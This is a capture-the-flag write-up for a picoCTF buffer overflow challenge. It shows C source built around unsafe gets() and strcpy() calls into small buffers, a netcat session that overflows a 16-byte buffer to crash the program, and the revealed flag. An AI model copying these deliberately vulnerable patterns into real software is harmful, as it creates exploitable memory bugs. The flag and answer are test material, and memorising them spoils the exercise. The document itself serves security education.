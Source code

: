 # Description:
Let's start off simple, can you overflow the correct buffer? The program is available `here`. You can view source `here`.

Connect using: `nc saturn.picoctf.net 57533`

The given program is:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
# Solution:
The part of code needed to crack this is the size of the input for netcat connection. After putting some random inputs in the netcat connection, I got the same ouptut everytime: `The program will exit now`

Since the string `buf2` is of size 16 and the input string gets copied to this string, I input more than 16 characters which caused overflow and gave me the flag.
```
yasho@DESKTOP-6ND4URA:~$ nc saturn.picoctf.net 55364
Input: oooooooooooooooooooooooo
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
# Flag
>picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}

